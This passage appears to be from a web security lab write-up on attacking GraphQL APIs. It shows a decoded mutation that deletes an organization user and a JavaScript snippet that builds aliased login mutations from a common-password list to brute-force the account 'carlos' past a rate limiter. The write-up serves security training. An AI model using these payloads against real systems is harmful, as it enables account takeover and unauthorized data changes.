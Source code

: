 * Decoded query:

```
/api?query=mutation($input: DeleteOrganizationUserInput) {
  deleteOrganizationUser(input: $input) {
    user {
      id
      username
    }
  }
}&variables={"input":{"id":3}}
```


Note: If you use Burp's built-in functionality which saves all of the accessible queries from the introspection request, we can test these queries easier/quicker.


<br><br>


### Lab: Bypassing GraphQL brute force protections


Overview:

*  The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.

* To solve the lab, brute force the login mechanism to sign in as carlos. Use the list of authentication lab passwords as your password source. 


Steps to exploit:

* Use the script that is available in the lab to construct alias using the same operation to brute force the password for the user carlos

* Script:

```
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

* Send the login graphql request to Burp repeater
